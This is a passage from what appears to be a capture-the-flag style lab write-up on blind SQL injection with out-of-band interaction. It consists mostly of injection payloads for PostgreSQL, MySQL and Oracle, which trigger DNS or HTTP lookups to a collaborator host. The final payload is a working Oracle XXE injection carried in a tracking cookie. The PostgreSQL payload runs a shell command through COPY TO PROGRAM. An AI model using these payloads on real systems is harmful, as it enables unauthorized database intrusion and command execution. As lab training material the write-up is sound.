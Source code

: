 ```
FFyToxqSs49lpxuC'+||+(copy+(SELECT+'')+to+program+'nslookup+BURP-COLLABORATOR-SUBDOMAIN')--
```


### MySQL
```
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
```

```
FFyToxqSs49lpxuC'+AND+LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')--
```

-----------------------------------------------

Finally, the correct payload was the Oracle payload, changing the AND for a UNION and encoding the characters ;, ? and =:

```
Cookie: TrackingId=FFyToxqSs49lpxuC'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://rfawfotutbq6iasl1guon5zd84ev2uqj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```



![img](images/Blind%20SQL%20injection%20with%20out-of-band%20interaction/1.png)




![img](images/Blind%20SQL%20injection%20with%20out-of-band%20interaction/2.png)
